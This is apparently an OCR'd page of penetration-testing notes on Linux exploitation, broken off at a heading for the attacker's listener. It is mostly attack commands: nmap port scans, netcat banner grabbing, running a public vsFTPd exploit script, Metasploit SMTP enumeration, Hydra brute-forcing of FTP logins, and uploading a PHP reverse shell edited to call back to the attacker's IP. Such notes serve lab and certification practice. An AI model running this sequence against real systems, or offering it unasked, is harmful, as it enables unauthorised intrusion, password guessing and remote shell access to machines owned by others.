 ### Linux Exploitation

```bash
# Attacker's machine - Find target IP
cat /etc/hosts
ping <TARGET_IP>
ping <TARGET_FQDN>
mkdir <TARGET>
cd <TARGET>/

# Port Scanning - 1000 common ports or more advanced scans
nmap -sV <TARGET_IP>
nmap -sV -p 1-10000 <TARGET_IP> -oX nmap_10k
nmap -T4 -PA -sC -sV -p 1-10000 <TARGET_IP> -oX nmap_10k
nmap -T4 -PA -sC -sV -p- <TARGET_IP> -oX nmap_all
nmap -sU -sV <TARGET_IP> -oX nmap_udp

# Banner Grabbing - various ports e.g.
nc -nv <TARGET_IP> 512
nc -nv <TARGET_IP> 513
nc -nv <TARGET_IP> 1524

# Enumeration
cat /etc/*release
whoami
```

#### VSFTPD

```bash
# Targeting VSFTPD
nmap -sV -sC -p 21 <TARGET_IP>

## Try anonymous:anonymous
ftp <TARGET_IP>

## Exploit vsFTPd
searchsploit vsftpd
searchsploit -m 49757
vim 49757.py
chmod +x 49757.py
python3 49757.py <TARGET_IP>

## Enumerate SMTP - msfconsole
use auxiliary/scanner/smtp/smtp_enum
setg RHOSTS <TARGET_IP>
set UNIXONLY true
run

## Brute-force FTP
hydra -l <USER> -P /usr/share/metasploit-framework/data/wordlists/unix_users.txt <TARGET_IP> ftp

## Modify the shell via FTP
cp /usr/share/webshells/php/php-reverse-shell.php .
mv php-reverse-shell.php shell.php
vim shell.php
## Change the $ip & $port variable to the Attacker's IP & port

ftp <TARGET_IP>
cd /
cd /var/www/dav
put shell.php

## Attacker listener
```